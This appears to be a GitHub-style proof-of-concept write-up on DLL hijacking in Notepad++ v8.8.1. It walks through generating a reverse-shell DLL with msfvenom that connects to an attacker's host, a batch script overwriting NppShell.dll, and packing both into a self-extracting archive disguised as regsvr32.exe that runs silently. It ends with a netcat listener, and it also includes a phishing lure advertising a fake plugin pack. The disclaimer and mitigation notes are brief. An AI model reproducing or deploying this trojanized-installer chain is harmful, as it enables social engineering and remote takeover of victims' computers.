 # test-notepad-v8.8.1
this is what i do, and at the same time im learning too from everyone

"Here’s a new plugin pack for Notepad++ to improve your coding productivity! Download it now 💡✨"
yes it is pack with real installer and regsvr32.exe , and yes the attack starts there, phishing and social engineering at its best

# DLL Hijacking in Notepad++ v8.8.1: A Practical PoC Write-up

# Introduction
I tried demonstrate a proof-of-concept (PoC) exploit targeting Notepad++ v8.8.1, which is vulnerable to DLL hijacking via the NppShell.dll component(you also can try with others dll files within the notepad installer). This PoC shows how an attacker can achieve arbitrary code execution by planting a malicious DLL and tricking the application into loading it.

⚠️ Disclaimer: This write-up is for educational purposes only. Always test in isolated environments and never target unauthorized systems.

# What is DLL hijacking?
DLL hijacking is a well-known attack technique where an application loads a malicious DLL instead of a legitimate one due to insecure search paths or missing integrity checks. Once the application loads the malicious DLL, attacker-controlled code executes in the context of the application.

🛠️ Environment setup
Victim machine: Windows 11 with Notepad++ v8.8.1 installed

Attacker machine: Kali Linux (any ver)

Tools used: msfvenom, batch scripting, WinRAR (SFX builder)

#  Step-by-step exploit process
1️⃣ Create the malicious NppShell.dll
On Kali, generate a reverse shell DLL payload using msfvenom:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll -o NppShell.dll

2️⃣ Prepare an installer batch script
Write a simple install.bat:

echo off

cls

copy /Y NppShell.dll "C:\Program Files\Notepad++\contextMenu\NppShell.dll"

This script overwrites the legitimate NppShell.dll in Notepad++.

3️⃣ Bundle files using SFX archive
Bundle NppShell.dll and install.bat into a self-extracting (SFX) archive named regsvr32.exe.

Configure SFX to automatically run install.bat after extraction.

4️⃣ Deploy and execute

Place the Notepad++ v8.8.1 installer and the malicious regsvr32.exe in the same directory on the victim machine.

5️⃣ Trigger execution

The victim simply double-clicks the Notepad++ installer. Simultaneously, the crafted regsvr32.exe is launched stealthily, executing install.bat to overwrite NppShell.dll with the backdoored DLL.
Because the SFX configuration runs the batch script silently, the victim does not see any additional windows or warnings.
When Notepad++ installed, it automatically loads NppShell.dll. Because it now points to the attacker DLL, your reverse shell connects back to your Kali listener.

6️⃣ Boom! 🎯
On your Kali machine, listen for the shell:

nc -lvnp <attacker_port>
Once Notepad++ installed, connection established — you now have code execution on the victim.

#  Impact💥
This attack enables local privilege escalation or persistence if combined with initial access.

# Mitigation🛡️
Mind to upgrade to latest version 

Remove old or unused DLL files.

Apply strict file system permissions to prevent unauthorized modifications.

 # Important Notes ⚠️ 
This PoC only works during the installation phase.
It requires the victim to execute a trojanized installer package that includes your malicious DLL and script.
It does not work on already installed and running Notepad++ software if it was installed correctly before.

thankyouu!
